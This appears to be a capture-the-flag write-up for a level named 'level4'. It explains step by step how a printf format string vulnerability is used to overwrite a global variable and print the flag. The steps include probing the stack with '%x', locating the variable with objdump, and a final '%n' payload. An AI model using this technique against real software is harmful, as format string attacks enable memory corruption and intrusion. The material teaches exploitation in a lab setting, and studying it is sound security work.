 # level4
The code looks like the previous level. But there are three differences:
- `printf` is called through a function `p` instead of beeing called directly
- The global variable `m` is compared to `0x1025544` instead of `0x40`
- the if statement cat directly the flag instead of run a shell

## Goal

Same goal : write `0x1025544` to `m` and get the flag

> 0x1025544 = 16930116 in decimal

But this time, we can't write 16930116 characters into the buffer because it is protected from overflow by `fgets` (here `fgets()` reads 512 chars max).

## Step 1
find with which parameter `printf` fall on the `fgets` return address (the buffer address)    
```bash
$ (python -c 'print "AAAA " + "%x " * 16'; cat)  | /home/user/level4/level4
```
```console
AAAA b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078
```

the Buffer "is" the 13th parameter of `printf` (the 12th va_arg) 

## Step 2
Find the address of the `m` variable
```bash
$ objdump -t level4
```
```console
08049810 g     O .bss	00000004              m
```

## Exploit

```bash
(python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"'; cat)  | /home/user/level4/level4
```

- %12$n: refer to the 12th argument in the argument list of printf (the buffer)
- %16930112d: format the output and print 16930112 characters on stdout to display the 1st argument of the list  (decimal format)
    > 16930112 = 16930116 - 4 (4 bytes for the address of `m` ever written)
- \x10\x98\x04\x08: the address of `m` variable

Finally, it write 16930116